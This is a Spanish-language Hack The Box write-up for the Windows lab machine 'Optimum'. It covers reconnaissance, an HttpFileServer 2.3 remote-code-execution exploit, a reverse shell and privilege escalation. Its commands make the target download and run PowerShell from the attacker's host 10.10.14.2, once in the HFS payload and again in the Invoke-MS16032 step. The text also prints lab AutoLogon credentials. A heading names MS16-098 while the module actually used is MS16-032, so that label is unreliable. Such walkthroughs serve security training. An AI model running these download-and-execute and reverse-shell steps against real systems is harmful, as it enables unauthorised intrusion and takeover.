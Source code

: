 --------
- Tags: #sherlock #httpfileserver #winpeas 
- ---------
## Técnicas utilizadas
- HttpFileServer 2.3 Exploitation [RCE]  
- System Recognition - Windows Exploit Suggester  
- Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098) [Privilege Escalation]
## Procedimiento
![[Pasted image 20230823224124.png]]

#### Reconomiento
Al lanzar un **nmap** sobre la maquina, podemos ver los siguientes puertos con sus respectivas versiones y servicios:
```ruby
# nmap -sCV -p80 10.10.10.8
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 21:02 PDT
Nmap scan report for 10.10.10.8
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

Un escaneo con **whatweb** sobre las tecnologías web, nos muestra lo siguientes:
```ruby
# whatweb 10.10.10.8
http://10.10.10.8 [200 OK] Cookies[HFS_SID], Country[RESERVED][ZZ], HTTPServer[HFS 2.3], HttpFileServer, IP[10.10.10.8], JQuery[1.4.4], Script[text/javascript], Title[HFS /]
```

#### HttpFileServer 2.3 Exploitation [RCE]  
Al visitar la pagina, vemos trata de un **HttpFileServer** de version **2.3**. Buscando por exploits en **SearchSploit** encontramos un de tipo **Remote Code Execution**:
![[Pasted image 20230826210804.png]]

Usaremos el repositorio de [**Nishag**](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) para tener una powershell en la maquina victima. Ejecutamos el siguiente comando que nos indica dentro de los comentarios del script:
```ruby
# python3 exploit.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2/ps.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.2/ps.ps1%27%29.}
```

Y por otro lado ganamos la **Shell**:
```powershell
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.8] 49162
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>
```

#### System Recognition - Windows Exploit Suggester  
Una vez dentro, podemos proceder a subir **WinPeas** y este nos muestra las siguientes credenciales:
```
[+] Looking for AutoLogon credentials Some AutoLogon credentials were found!! 
DefaultUserName : kostas
DefaultPassword : kdeEjDowkS*
```

Pero no sirven para completamente nada.

#### Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098) [Privilege Escalation]
Podemos tirar de otras herramientas de reconomiento, como **sherlock.ps1** y esta nos muestra cosas mas interesantes:
```i
image
```

Podemos abusar de **MS16-098**, para esto, usaremos un modulo de PowerShell que se encuentra en el siguiente [enlace](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1). Solo tenemos que importarlo y ejecutar el comando que deciemos de manera privilegiada, en este caso, aprovechando que tenemos el invoke-powershell.ps1 lanzaremos otra shell como **Administrador**:
```powershell
PS> Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.2/ps.ps1')"
```

Y ya podriamos leer la flag de root:
![[Pasted image 20230826213653.png]]
